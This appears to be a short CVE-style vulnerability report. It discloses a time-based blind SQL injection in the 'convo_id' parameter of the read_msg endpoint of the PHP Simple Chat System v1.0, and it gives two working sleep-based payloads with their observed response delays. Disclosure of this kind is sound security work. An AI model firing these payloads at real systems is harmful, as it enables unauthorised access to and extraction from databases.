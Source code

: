 # Simple Chat System v1.0 has SQL injection

BUG_Author：sikii

Website source address: https://www.sourcecodester.com/php/14516/simple-chat-system-using-phpmysql-and-websocket-source-code.html

Vulnerability URL: /chat/ajax.php?action=read_msg

POST parameter 'convo_id' exists SQL injection vulnerability

Payload1: convo_id=1' and (select 2 from (select(sleep(10)))t) and 'q'='q&user_id=2

The response time is 10 seconds.

![image](https://github.com/sikii7/CVE/blob/main/pic/sql1.png)

Payload2: convo_id=1' and (select 2 from (select(sleep(15)))t) and 'q'='q&user_id=2

The response time is 15 seconds.

![image](https://github.com/sikii7/CVE/blob/main/pic/sql2.png)

